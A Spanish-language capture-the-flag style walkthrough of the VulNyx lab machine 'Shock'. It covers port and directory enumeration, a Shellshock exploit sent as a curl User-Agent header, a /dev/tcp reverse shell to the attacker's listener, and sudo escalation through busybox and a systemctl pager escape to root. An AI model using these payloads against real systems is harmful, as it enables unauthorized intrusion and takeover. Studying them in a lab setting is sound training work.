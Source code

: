 # WriteUp: Shock | VulNyx

A continuación, presento el análisis y la resolución de la máquina **Shock** de la plataforma VulNyx. Mi proceso abarcó desde la fase de reconocimiento inicial hasta la escalada final de privilegios.

## <mark style="color:yellow;">Fase 1: Reconocimiento y Enumeración</mark>

Inicié mi análisis con una fase de reconocimiento, utilizando `nmap` para el descubrimiento de puertos abiertos en el objetivo.

```bash
nmap -n -Pn -sS -p- --min-rate 5000 192.168.56.28

PORT   STATE    SERVICE
21/tcp filtered ftp
22/tcp open     ssh
80/tcp open     http
```

Posteriormente, realicé un escaneo más detallado sobre los puertos encontrados para identificar los servicios y sus versiones.

```bash
nmap -sVC -p21,22,80 192.168.56.28

PORT   STATE  SERVICE VERSION
21/tcp closed ftp
22/tcp open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 37:36:60:3e:26:ae:23:3f:e1:8b:5d:18:e7:a7:c7:ce (RSA)
|   256 34:9a:57:60:7d:66:70:d5:b5:ff:47:96:e0:36:23:75 (ECDSA)
|_  256 ae:7d:ee:fe:1d:bc:99:4d:54:45:3d:61:16:f8:6c:87 (ED25519)
80/tcp open   http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

## <mark style="color:yellow;">Fase 2: Enumeración del Servidor Web</mark>

Al inspeccionar el servicio web en el puerto 80, me encontré únicamente con una página estática que mostraba el mensaje "HelloWorld", sin ofrecer mayor información a simple vista.

<figure><img src="../../.gitbook/assets/Pasted image 20250930081804.png" alt=""><figcaption></figcaption></figure>

Procedí a realizar una enumeración de directorios con `gobuster`, pero los resultados iniciales no fueron significativos.

```bash
gobuster dir -u http://192.168.56.28 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.8
# ... (output recortado) ...
/server-status        (Status: 403) [Size: 278]
===============================================================
```

Ante la falta de resultados con diversas listas de palabras, decidí cambiar mi estrategia y emplear los módulos de escaneo de Metasploit Framework. Utilicé `auxiliary/scanner/http/dir_scanner`.

```bash
msf6 auxiliary(scanner/http/dir_scanner) > set RHOSTS 192.168.56.28
RHOSTS => 192.168.56.28
msf6 auxiliary(scanner/http/dir_scanner) > run

[*] Detecting error code...
[*] Using code '404' as not found for 192.168.56.28
[+] Found http://192.168.56.28:80/cgi-bin/ 403 (192.168.56.28)
[+] Found http://192.168.56.28:80/icons/ 403 (192.168.56.28)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Este escaneo reveló un directorio de interés: `/cgi-bin/`. El directorio `cgi-bin` es comúnmente utilizado en servidores Apache para alojar scripts ejecutables. Mi investigación me llevó a centrarme en este vector, sospechando que podría encontrar algún script vulnerable.

Mi siguiente acción fue realizar un ataque de fuerza bruta enfocado en el directorio `/cgi-bin/`, buscando scripts con extensiones comunes como `.cgi`, `.sh`, `.pl` y `.py`.

```bash
gobuster dir -u http://192.168.56.28/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x .cgi,.sh,.pl,.py -k -t 50

# ... (output recortado) ...
/shell.sh             (Status: 500) [Size: 611]
# ... (output recortado) ...
```

El resultado fue revelador: encontré el script `/cgi-bin/shell.sh`, que devolvía un código de estado **HTTP 500 (Internal Server Error)**. Esta respuesta a menudo indica un fallo en la ejecución del script en el lado del servidor, lo que puede ser un síntoma de una vulnerabilidad.

## <mark style="color:yellow;">Fase 3: Explotación (Shellshock)</mark>

Este escenario es un indicador clásico de la vulnerabilidad conocida como **Shellshock** (CVE-2014-6271). Procedí a confirmar y explotar esta vulnerabilidad enviando una cabecera `User-Agent` maliciosa a través de `curl` para ejecutar comandos.

```bash
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'id'" http://192.168.56.28/cgi-bin/shell.sh

# Respuesta obtenida:
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La respuesta confirmó la ejecución remota de comandos. El siguiente paso fue establecer una reverse shell para obtener acceso interactivo al sistema.

```bash
# En mi máquina de atacante, puse un listener con netcat
nc -lvnp 4444

# Envié el payload para la reverse shell:
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/192.168.56.22/4444 0>&1'" http://192.168.56.28/cgi-bin/shell.sh

# Conexión recibida en mi listener:
bash: cannot set terminal process group (496): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## <mark style="color:yellow;">Fase 4: Escalada de Privilegios</mark>

**De `www-data` a `will`**

Una vez con acceso como el usuario `www-data`, mi siguiente objetivo fue la escalada de privilegios. Verifiqué los permisos de `sudo` asignados.

```bash
bash-4.3$ sudo -l
Matching Defaults entries for www-data on shock:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on shock:
    (will) NOPASSWD: /usr/bin/busybox
```

Identifiqué que el usuario `www-data` puede ejecutar `/usr/bin/busybox` como el usuario `will` sin necesidad de contraseña. Utilicé este permiso para obtener una shell como dicho usuario.

```bash
bash-4.3$ sudo -u will /usr/bin/busybox sh
id
uid=1001(will) gid=1001(will) groups=1001(will)

# Mejoré la shell
bash -i
```

**De `will` a `root`**

Ahora como el usuario `will`, repetí el proceso de enumeración de permisos.

```bash
will@shock:~$ sudo -l
Matching Defaults entries for will on shock:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User will may run the following commands on shock:
    (root) NOPASSWD: /usr/bin/systemctl
```

En esta ocasión, descubrí que `will` puede ejecutar `/usr/bin/systemctl` como `root`. La utilidad `systemctl`, cuando su salida es extensa, invoca un paginador como `less`. Estos paginadores a menudo permiten ejecutar comandos del sistema utilizando el carácter `!`. Aproveché esta funcionalidad para "escapar" del paginador y obtener una shell de `root`.

```bash
will@shock:~$ sudo -u root /usr/bin/systemctl
# Una vez dentro del paginador, escribí:
!/bin/bash
```

Al ejecutar el comando, se me otorgó una shell con privilegios elevados.

```bash
# Verifiqué mi identidad:
root@shock:~# id
uid=0(root) gid=0(root) groups=0(root)
```

